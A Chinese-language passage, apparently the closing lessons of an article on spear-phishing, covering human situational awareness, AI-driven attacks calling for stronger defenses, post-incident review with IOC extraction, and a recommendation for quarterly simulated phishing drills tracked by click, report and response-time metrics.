4. **情境意识是最后的防线**——无论技术如何进步，人类在任何可疑操作前停下来思考的能力始终是最重要的安全机制。

5. **攻击者也在使用 AI，防御必须升级**——传统的"找错别字"式防钓鱼培训已经过时，AI 生成的攻击需要 AI 驱动的防御和更高层次的人类认知训练。

6. **从失败中学习**——每次成功的鱼叉式钓鱼攻击都是一堂昂贵的安全课。进行事后复盘、提取 IOC、更新防御策略，将攻击经验转化为组织防御能力。

> **实践建议：** 组织应每季度进行一次模拟鱼叉式钓鱼演练，使用与自身行业相关的定制化场景。演练后统计点击率、汇报率和响应时间三个核心指标，将其纳入安全 KPI 考核体系。对于点击率持续较高的部门，应实施针对性的强化培训而非惩罚。